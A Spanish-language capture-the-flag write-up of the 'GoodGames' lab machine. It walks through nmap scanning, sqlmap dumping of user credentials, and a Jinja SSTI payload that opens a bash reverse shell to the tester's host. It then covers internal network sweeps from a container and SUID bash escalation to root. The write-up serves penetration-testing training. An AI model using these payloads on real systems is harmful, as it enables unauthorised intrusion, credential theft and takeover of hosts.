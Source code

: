 ```yaml
---
description: '✍️ Autor: TheCyberGeek🔍 Dificultad: Fácil 📅 Fecha de creación: 24/01/2022'
---
```


# GoodGames

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.130
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1278).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.130
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1279).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 10.10.11.130
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1280).png" alt=""><figcaption></figcaption></figure>

Accedemos al puerto 80.

<figure><img src="../../.gitbook/assets/image (1281).png" alt=""><figcaption></figcaption></figure>

Es una página de Juegos y tiene un Login vamos a usar entonces SQLMap.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-22 100654.png" alt=""><figcaption></figcaption></figure>

Conocer las bases de datos.

```
sqlmap -u http://10.10.11.130 --forms --dbs --batch
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Conocer las tablas de la base de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main --tables --batch
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Conocer las columnas de la tabla de la bases de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main -T user --columns --batch
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Conocer la información que hay en esas columnas.

```bash
sqlmap -u http://10.10.11.130 --forms -D main -T user -C name,id,email,password --dump --batch
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado unas credenciales aunque la contraseña al ser un hash la crackeamos.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Después de analizar el sitio web del perfil, encontramos un símbolo de configuración que nos redirige a una URL con un dominio diferente. Como primer paso, registraremos este nuevo dominio en el archivo `/etc/hosts`.

```bash
echo "10.10.11.130 internal-administration.goodgames.htb" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con **Wappalyzer** se ejecuta **Python** por lo que parece una vulnerabilidad **SSTI**. Para ello realizamos la comprobación básica.

```
{{ 7 * 7 }}
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Es vulnerable a **SSTI** por lo que realizamos un payload que contiene una Reverse Shell.

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"').read() }}
```

Nos ponemos en escucha.

```bash
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.** No somos root de manera oficial.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

La interfaz de red está conectada al adaptador de red interna con la dirección `172.19.0.2/16`, lo que nos permite comunicarnos con la red interna desde nuestra máquina de ataque a través de la red comprometida.

Para descubrir los hosts en la red interna, utilizamos el siguiente comando en una sola línea para realizar un escaneo de barrido:

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Una vez identificado un objetivo, realizamos un escaneo de puertos con el siguiente comando:

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Comencé a buscar credenciales de SSH en la máquina y finalmente encontré la carpeta de un usuario dentro del directorio `/home`. Sin embargo, no encontré a `augustus` en el archivo `/etc/passwd`.

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Vemos que el puerto 22 y 80 están abiertos, por lo que intentamos conectarnos por SSH con el usuario augustus utilizando la contraseña que habíamos encontrado previamente (superadministrator).

```bash
ssh augustus@172.19.0.1
whoami
augustus
```

Como el directorio home del usuario augustus está montado en el contenedor **Docker** y tenemos acceso como usuario **root**, podemos trasladar un binario con permisos **SUID** al home de **augustus** para escalar privilegios a root en el host.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt

root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash

augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

Ahora que hemos logrado elevar nuestros privilegios a **root** en la máquina víctima, podemos proceder a leer la flag del usuario **root**.

<figure><img src="../../.gitbook/assets/image (1283).png" alt=""><figcaption></figcaption></figure>
